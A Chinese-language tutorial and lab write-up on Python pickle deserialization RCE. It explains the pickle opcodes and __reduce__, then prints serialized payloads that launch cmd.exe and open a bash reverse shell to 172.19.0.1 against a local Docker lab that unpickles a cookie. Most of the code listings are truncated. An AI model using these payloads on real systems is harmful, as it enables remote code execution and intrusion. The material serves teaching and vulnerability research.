


0x01 前言
数据序列化常见的应用场景：数据结构网络传输，session存储，cache存储，或者配置文件上传，参数接收等接口处。
主要作用：能够让数据在存储或者传输的时候能够单单只用string的类型去表述相对复杂的数据结构，方便应用所见即所得，直接进行数据交流处理。
引发的安全问题：PHP的unserialize/__wakeup()漏洞、struts的ognl、xml解析的一系列漏洞、Ruby on Rails的xml/yaml，本文即将要讲的Python pickle/cPickle库的反序列化漏洞
此类漏洞常会导致RCE，原因：和我们所提到的应用场景有关。语言需要从string去解析出自己的语言数据结构，必然要去从这个string中做固定格式的解析，然后在内部把解析出来的结果去eval一下；或者，为了保证解析出来的内容为被序列化时候的Object状态，要调用一下状态保存的函数__wakeup__
0x02 Pickle模块
pickle模块用来对Python对象执行序列化和反序列化。Python的任何对象都可以通过它永久保存到硬盘文件。Pickle实际上是先把Python对象（list、dict、class等）转换为字符流，这个字符流包含反序列化（从字符流构建对象）所需的所有数据。
pickle有两个主要方法。第一个是dump-把对象导入到文件；第二个是load-从文件中加载对象。
实例
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17import pickle
l1 = ['data1','data2','data3', 'data4']
file = open("testfile",'wb')
# 把l1保存到文件
pickle.dump(l1, file)
file.close()
##############################################
file = open("testfile",'r')
# 从文件中加载保存的对象
l2 = pickle.load(file)
print(l2)
# 输出: ['data1', 'data2', 'data3']pickle instructions
1
2
3
4cos
system
(S'/bin/sh'
tR.Pickle is a stack language which means that the pickle instructions push data onto the stack or pop data off of the stack and operate on it in some fashion. To understand how the canonical pickle works, we need only understand six pickle instructions:
c: Read to the newline as the module name,module. Read the next line as the object name,object. Pushmodule.objectonto the stack.(: Insert a marker object onto the stack. For our purpose, this is paired withtto produce a tuple.t: Pop objects off the stack until a(is popped and create a tuple object containing the objects popped (except for the() in the order they were /pushed/ onto the stack. The tuple is pushed onto the stackS: Read the string in quotes up to the newline and push it onto the stack.R: Pop a tuple and a callable off the stack and call the callable with the tuple as arguments. Push the result onto the stack..: End of the pickle.
- c：读取新的一行作为模块名module，读取下一行作为对象名
object，然后将module.object压入到堆栈中。 - (：将一个标记对象插入到堆栈中。为了实现我们的目的，该指令会与t搭配使用，以产生一个元组。
- t：从堆栈中弹出对象，直到一个“
(”被弹出，并创建一个包含弹出对象（除了“(”）的元组对象，并且这些对象的顺序必须跟它们压入堆栈时的顺序一致。然后，该元组被压入到堆栈中。 - S：读取引号中的字符串直到换行符处，然后将它压入堆栈。
- R：将一个元组和一个可调用对象弹出堆栈，然后以该元组作为参数调用该可调用的对象，最后将结果压入到堆栈中。
- .：结束pickle。
说人话：
- c：接下来的2行内容类似于，
os.system、urllib.unquote是module.object的形式。 - (：就是左括号
- t：相当于右扩号
- S：代表本行后面的内容是
String，即字符串。 - R：执行紧靠自己左边的一个括号对中的内容，即
(和他t直接的内容。 - .：点号结束pickle。
0x03漏洞分析
类似于php的wakeup魔术方法，python中的__reduce__，可以在被反序列化的时候执行。具体内容请参考Python的官方库文档。而且并不止这一个函数。
如果序列化的内容可控，只需要将相应代码写入__reduce__函数中，接收端在反序列化的时候就会自动执行。
下面是一个简单的示例：
exp:
1 | import pickle |
生成payload：csubprocess\nPopen\np0\n((S'cmd.exe'\np1\ntp2\ntp3\nRp4\n.
下面模拟接收端

弹出shell！
0x04漏洞利用
接下来以P神github仓库里的某个开源靶场为例讲解一下实际环境下的漏洞利用,可部署到本地docker复现。
app.py
1 | import pickle |
exp.py
1 | #!/usr/bin/env python3 |
分析
反序列化的内容为user，通过cookie传输(用户可控)，于是pickle的反序列化漏洞便产生了，通过上面的exp可以查看我们生成的payload
1 | cposix\nsystem\np0\n(S\'python -c \\\'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.19.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);\\\'\'\np1\ntp2\nRp3\n. |
接收端在反序列化pickle.loads(user)过程中会自动执行__reduce__方法，弹出bash.
流程
利用过程中注意查看本地docker ip，以及docker环境中的ip地址，对应修改exp.py，上面的exp是我在本地修改好的.

利用成功，如果想进行更深入的反序列化漏洞学习，可以看P神的掌阅iReader某站Python漏洞挖掘
参考：